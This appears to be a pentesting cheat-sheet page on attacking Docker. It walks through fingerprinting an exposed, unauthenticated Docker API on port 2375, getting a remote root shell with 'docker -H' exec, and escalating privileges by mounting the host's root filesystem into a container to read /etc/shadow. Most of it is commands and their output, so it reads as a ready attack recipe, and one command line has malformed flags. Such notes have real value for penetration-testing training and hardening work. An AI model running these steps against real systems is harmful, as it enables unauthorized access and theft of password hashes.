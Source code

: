 Docker
======

## API
The docker API expose the port `2375`. This API can be used to interact with the docker engine which basically give ou the right to do anything you desire unauthenticated.

To confirm that the host is running Docker you can make a GET requests to `/version` :

```
http://<host>:<port>/version
{"Platform": {"Name": ""}, "Components": [{"Name": "Engine", "Version": "18.06.1-ce", "Details": {"ApiVersion": "1.38", "Arch": "amd64", "BuildTime": "2018-10-26T23:39:57.000000000+00:00", "Experimental": "false", "GitCommit": "e68fc7a/18.06.1-ce", "GoVersion": "go1.10.3", "KernelVersion": "4.14.47-64.38.amzn2.x86_64", "MinAPIVersion": "1.12", "Os": "linux"}}], "Version": "18.06.1-ce", "ApiVersion": "1.38", "MinAPIVersion": "1.12", "GitCommit": "e68fc7a/18.06.1-ce", "GoVersion": "go1.10.3", "Os": "linux", "Arch": "amd64", "KernelVersion": "4.14.47-64.38.amzn2.x86_64", "BuildTime": "2018-10-26T23:39:57.000000000+00:00"}
```

Then, using the CLI you can execute commands, for instance:
```bash
$ docker -H <host>:<port> ps

CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
be2dd8aa8222        ubuntu:14.04        "bash"              5 years ago         Up 2 seconds                            silly_elion

$ docker -H <host>:<port> exec -it <container_name> /bin/bash
root@abc:/# whoami
root
```

## Privilege Escalation

If the current user belong to the `docker` group then he can start a container
with a binding to files own by root and read them:

```bash
docker run --it --rm -v /:/mnt alpine:latest /mnt sh
```

Inside the container shell he can read all the files as root:

```bash
cat /etc/shadow
```
